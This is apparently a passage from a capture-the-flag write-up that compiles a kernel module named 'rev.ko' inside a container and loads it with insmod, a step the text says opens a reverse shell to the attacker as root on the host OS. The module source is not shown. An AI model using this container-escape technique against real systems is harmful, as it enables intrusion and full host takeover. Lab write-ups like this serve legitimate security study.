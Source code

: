 Confirm kernel headers:

```bash
root@d221f7bc7bf8:/tmp/exp# ls -l /lib/modules/6.8.0-1030-aws/build
lrwxrwxrwx 1 root root 37 May 30 16:04 /lib/modules/6.8.0-1030-aws/build -> /usr/src/linux-headers-6.8.0-1030-aws
```

---

### Compile the module

```bash
root@d221f7bc7bf8:/tmp/exp# make KVER=6.8.0-1030-aws
make -C /lib/modules/6.8.0-1030-aws/build M=/tmp/exp modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-1030-aws'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  You are using:           gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  CC [M]  /tmp/exp/rev.o
  MODPOST /tmp/exp/Module.symvers
  CC [M]  /tmp/exp/rev.mod.o
  LD [M]  /tmp/exp/rev.ko
  BTF [M] /tmp/exp/rev.ko
Skipping BTF generation for /tmp/exp/rev.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1030-aws'
```

At this point `rev.ko` is compiled.

---

### Load the module

```bash
root@d221f7bc7bf8:/tmp/exp# insmod rev.ko
```

This triggers the payload embedded in the module. Since it was configured to launch a reverse shell, the connection spawns back to the attacker machine as root on the host OS.

---

# Root.txt
